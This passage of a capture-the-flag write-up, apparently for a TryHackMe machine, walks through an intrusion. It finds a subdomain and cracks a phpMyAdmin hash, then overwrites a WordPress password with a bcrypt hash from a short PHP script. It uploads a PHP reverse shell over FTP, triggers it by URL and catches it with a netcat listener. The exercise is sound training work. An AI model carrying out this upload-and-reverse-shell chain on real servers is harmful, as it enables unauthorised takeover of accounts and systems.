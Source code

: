 We found another subdomain: asd.thm so we added it to the file: "/etc/hosts"

we find a hash in the phpmyadmin db we crack it, with "Hashcat"

After a long time I realized that the password is very complex so entering the "dashboard" could be another game.

I realized late that the password is too complex to crack, but we can make another play, if we are in the db, we can update the user's password, if you don't have wordpress you can use Bcrypt since the wordpress hashes are very close, here a script that generates it:

```php
<?php
$password = 'pwned123';
$hash = password_hash($password, PASSWORD_BCRYPT);
echo $hash;
?>
```

# Getting Reverse Shell

At this point in the dashboard, we will not be able to load a revshell due to permissions but if we remember in the ftp we had write and read permissions so a shell can be loaded there

```php
ftp 10.10.140.187
Connected to 10.10.140.187.
220 (vsFTPd 3.0.3)
Name (10.10.140.187:m3y): hakanftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put rev-shell.php
local: rev-shell.php remote: rev-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5490 bytes sent in 0.00 secs (33.5620 MB/s)
ftp> chmod +x rev-shell.php
200 SITE CHMOD command ok.
ftp> chmod 700 rev-shell.php
200 SITE CHMOD command ok.
```


If we see the wp_options in the phpmyadmin, we see that this file will not point to adana.thm but to subdomain.adana.thm

Execute Rev Shell
we run it with: http://subdomain.adana.thm/rev-shell.php


Listen:
rlwrap nc -nlvp 1234
